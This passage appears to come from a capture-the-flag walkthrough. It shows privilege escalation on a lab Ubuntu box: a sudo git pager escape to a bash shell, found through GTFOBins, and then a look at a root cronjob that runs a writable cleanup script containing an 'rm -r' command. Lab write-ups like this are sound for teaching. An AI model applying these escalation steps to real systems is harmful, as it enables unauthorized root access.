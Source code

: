 Following the same processes before, I checked GTFO bins and found a a priv esc path using git. 

```highlight
$ sudo -u d4rckh /usr/bin/git -p help config
GIT-CONFIG(1)                     Git Manual                     GIT-CONFIG(1)

NAME
       git-config - Get and set repository or global options

SYNOPSIS
       git config [<file-option>] [type] [-z|--null] name [value [value_regex]]
       git config [<file-option>] [type] --add name value
       git config [<file-option>] [type] --replace-all name value [value_regex]
       git config [<file-option>] [type] [-z|--null] --get name [value_regex]
       git config [<file-option>] [type] [-z|--null] --get-all name [value_regex]
       git config [<file-option>] [type] [-z|--null] [--name-only] --get-regexp name_regex [value_regex]
       git config [<file-option>] [type] [-z|--null] --get-urlmatch name URL
       git config [<file-option>] --unset name [value_regex]
       git config [<file-option>] --unset-all name [value_regex]
       git config [<file-option>] --rename-section old_name new_name
       git config [<file-option>] --remove-section name
       git config [<file-option>] [-z|--null] [--name-only] -l | --list
       git config [<file-option>] --get-color name [default]
       git config [<file-option>] --get-colorbool name [stdout-is-tty]
       git config [<file-option>] -e | --edit
!/bin/bash
d4rckh@ubuntu-xenial:~$ 
```

Now I'm the user d4rckh I can go back to the users home directory and look at the cleanup.up script.

```highlight
d4rckh@ubuntu-xenial:/home/d4rckh$ cat cleanup.py
# -*- coding: utf-8 -*-
#!/usr/bin/env python
import os
import sys
try:
        os.system('rm -r /home/cleanup/* ')
except:
        sys.exit()
```

Reading the script it looks like something that would be ran via cronjob. Lets see what jobs are on the machine.

```highlight
d4rckh@ubuntu-xenial:/home/d4rckh$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
*/2 *   * * *   root    python /home/d4rckh/cleanup.py
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
```
